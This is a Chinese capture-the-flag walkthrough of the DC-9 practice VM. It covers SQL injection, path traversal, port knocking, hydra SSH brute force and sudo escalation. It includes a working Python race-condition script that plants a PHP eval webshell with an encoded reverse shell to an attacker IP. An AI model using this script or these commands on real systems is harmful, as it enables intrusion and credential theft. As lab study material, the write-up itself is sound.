# DC-9 靶机渗透实战：从 SQL注入到提权的双解法复现解析-先知社区

> **来源**: https://xz.aliyun.com/news/18289  
> **文章ID**: 18289

---

# DC-9

## 解法一：

一、先扫一下，出了80端口



二、上去80看一眼，看到这个search功能点，大概率是 有个sql注入漏洞。



果然有，用sqlmap跑一下。可以unison注入和时间注入。





---+------------+---------------+---------------------+-----------+-----------+  
| id | lastname | password | reg\_date | username | firstname |  
+----+------------+---------------+---------------------+-----------+-----------+  
| 1 | Moe | 3kfs86sfd | 2019-12-29 16:58:26 | marym | Mary |  
| 2 | Dooley | 468sfdfsd2 | 2019-12-29 16:58:26 | julied | Julie |  
| 3 | Flintstone | 4sfd87sfd1 | 2019-12-29 16:58:26 | fredf | Fred |  
| 4 | Rubble | RocksOff | 2019-12-29 16:58:26 | barneyr | Barney |  
| 5 | Cat | TC&TheBoyz | 2019-12-29 16:58:26 | tomc | Tom |  
| 6 | Mouse | B8m#48sd | 2019-12-29 16:58:26 | jerrym | Jerry |  
| 7 | Flintstone | Pebbles | 2019-12-29 16:58:26 | wilmaf | Wilma |  
| 8 | Rubble | BamBam01 | 2019-12-29 16:58:26 | bettyr | Betty |  
| 9 | Bing | UrAG0D! | 2019-12-29 16:58:26 | chandlerb | Chandler |  
| 10 | Tribbiani | Passw0rd | 2019-12-29 16:58:26 | joeyt | Joey |  
| 11 | Green | yN72#dsd | 2019-12-29 16:58:26 | rachelg | Rachel |  
| 12 | Geller | ILoveRachel | 2019-12-29 16:58:26 | rossg | Ross |  
| 13 | Geller | 3248dsds7s | 2019-12-29 16:58:26 | monicag | Monica |  
| 14 | Buffay | smellycats | 2019-12-29 16:58:26 | phoebeb | Phoebe |  
| 15 | McScoots | YR3BVxxxw87 | 2019-12-29 16:58:26 | scoots | Scooter |  
| 16 | Trump | Ilovepeepee | 2019-12-29 16:58:26 | janitor | Donald |  
| 17 | Morrison | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2 | Scott |

拿到所有的用户的用户名和密码。而且密码是没有任何加密的。随便选一个登录试试。

在另外一个库里面拿到了admin的密码。



好吧，sqlmap让我更白痴。



拿到了admin的密码，为transorbital1


看到File does not exist ，感觉像是文件包含。



update语句，应该不能写shell。

尝试wfuzz文件包含，把参数爆出来。



得到file参数



可以看到好多个用户可以bash登录。

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:106:113:MySQL Server,,,:/nonexistent:/bin/false
marym:x:1001:1001:Mary Moe:/home/marym:/bin/bash
julied:x:1002:1002:Julie Dooley:/home/julied:/bin/bash
fredf:x:1003:1003:Fred Flintstone:/home/fredf:/bin/bash
barneyr:x:1004:1004:Barney Rubble:/home/barneyr:/bin/bash
tomc:x:1005:1005:Tom Cat:/home/tomc:/bin/bash
jerrym:x:1006:1006:Jerry Mouse:/home/jerrym:/bin/bash
wilmaf:x:1007:1007:Wilma Flintstone:/home/wilmaf:/bin/bash
bettyr:x:1008:1008:Betty Rubble:/home/bettyr:/bin/bash
chandlerb:x:1009:1009:Chandler Bing:/home/chandlerb:/bin/bash
joeyt:x:1010:1010:Joey Tribbiani:/home/joeyt:/bin/bash
rachelg:x:1011:1011:Rachel Green:/home/rachelg:/bin/bash
rossg:x:1012:1012:Ross Geller:/home/rossg:/bin/bash
monicag:x:1013:1013:Monica Geller:/home/monicag:/bin/bash
phoebeb:x:1014:1014:Phoebe Buffay:/home/phoebeb:/bin/bash
scoots:x:1015:1015:Scooter McScoots:/home/scoots:/bin/bash
janitor:x:1016:1016:Donald Trump:/home/janitor:/bin/bash
janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash
```

后来经过尝试发现是个文件读取，不是文件包含（后来用解法二知道是个文件包含，菜到想哭）

尝试读取各个用户家目录下的.bashrc读不了。说明权限应该是700.之类的。

那怎么办呢？好像没路可走了。想到题目的ssh端口是被过滤的。看看能不能开启这个端口。这里有个新姿势。（以前打过类似靶机，所以经验还是很重要的。）

就是/etc/knockd.conf。这个东西，是个”敲门服务“。

​

通俗来说端口探测可以理解为，我按顺序敲击端口就可以将ssh服务打开，反之敲击关闭，端口顺序存放在/etc/knockd.conf文件中。



先找到/etc/knockd.conf文件，发现端口顺序为7469,8475,9842


很直观了吧。简单用nc连一下，就把门给撬开了。



那么我们有了ssh端口后，尝试用开始sql注入的账户+密码本子。爆破进去。

```
hydra -L username.txt -P password.txt ssh://192.168.1.114 -V -f
```




​

```
chandlerb  UrAG0D!

joeyt  Passw0rd

janitor  Ilovepeepee

```


有3个账户都登进去搂一眼。发现最后一个账户，有个奇怪的文件夹。




应该是密码本。



```
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
```

把这四个密码再爆一次。



```
fredf
B4-Tru3-001
```

多出一组用户名和密码。登上去后sudo -l

得到



## 提权




这很明显，就是让我们写东西到一个root权限的文件里面。这里就有好多方式了。可以写特权用户。sudo提权，ssh免密登录；。

这里我随便选一个sudo提权把。



## 解法二：

开局还是nmap扫一下，

得到22,80端口，其中22是被过滤的，假如我装瞎，不知道”敲门协议“。

通过80端口，通过sql注入得到了网站的admin用户的密码，然后通过session机制写webshell。

```
import io
import sys
import requests
import threading
sessid = 'balalala'
shell_filename = 'xiamao.php'
ip = '192.168.1.116'
def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            f'http://{ip}/index.php',
            data={"PHP_SESSION_UPLOAD_PROGRESS":f"<?php echo 'fcb_xiamao';file_put_contents('/var/lib/php/sessions/{shell_filename}', base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7c3lzdGVtKCJiYXNoIC1jICdzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTEzLzU1NTUgMD4mMSciKTs/Pg=='));;?>"},
            files={"file":('filename', f)},
            cookies={'PHPSESSID':sessid}
        )

def READ():
    session = requests.Session()
    session.post(f'http://{ip}/manage.php',data={"username":"admin","password":"transorbital1"})
    session_id = session.cookies.get('PHPSESSID')  # 或根据实际情况调整cookie名称
    #print(f"Session ID: {session_id}")
    while True:
        response = session.get(f'http://{ip}/manage.php?file=../../../../../../../../var/lib/php/sessions/sess_{sessid}')
        #print(response.text)
        if "filename" not in response.text:
            continue
        else:
            res_she = session.post(f'http://{ip}/manage.php?file=../../../../../../var/lib/php/sessions/{shell_filename}',data={'cmd':'system("whoami");'})
            if res_she.status_code == 200 and 'www-data' in res_she.text:
                print("webshell已写入，连接地址：" + f'http://{ip}/manage.php?file=../../../../var/lib/php/sessions/{shell_filename}')
                print("连接密码：cmd")
                print(f"Cookie: PHPSESSID={session_id}")
                sys.exit(0)
with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()
    READ()
```


拿到webshell。



通过这个config.php，拿到数据库的用户名和密码。连上去。







拿到所有用户名和密码。稍微整理一下，




把sucrack，还有用户名和密码本传到靶机上，本地爆破用户名和密码。



用surcak，爆破本地用户密码。



得到了3组密码。


对比一下得到：

```
9 chandlerb  UrAGD!

10 joeyt Passw0rd

16 janitor2 Ilovepeepee

```

后面就跟第一种解法一样了。不再赘述了。这样就可以不通过“敲门协议”，拿到root了。

​

最后，感谢我的小伙伴侠猫，给了这个DC-9靶机拿webshell的方式。爱你。
